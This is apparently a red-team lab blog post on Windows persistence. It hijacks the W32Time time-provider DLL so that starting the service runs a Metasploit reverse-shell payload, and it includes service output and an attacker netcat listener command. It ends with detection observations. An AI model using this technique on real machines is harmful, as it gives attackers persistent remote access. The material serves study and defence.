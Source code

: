```yaml
---
layout: post
title: "2024-06-18-t1209 hijacking time providers"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1209-hijacking-time-providers/
---
```


---
description: Persistence
---

# Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If an attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get that malicious code executed. 

In this lab, we will just swap out the `w32time.dll` with our own. It contains a metasploit reverse shell payload:

![](../../.gitbook/assets/time-registry.png)

Starting the w32time service:

```csharp
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

Attacker receiving a reverse shell:

{% code title="attacker@local" %}
```csharp
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode %}

## Observations

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../../.gitbook/assets/time-context.png)

This time and time again shows that binaries running off of svchost.exe, especially if they are rundll32 and are making network connections, should be investigated further.

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1209" %}

@spotheplanet

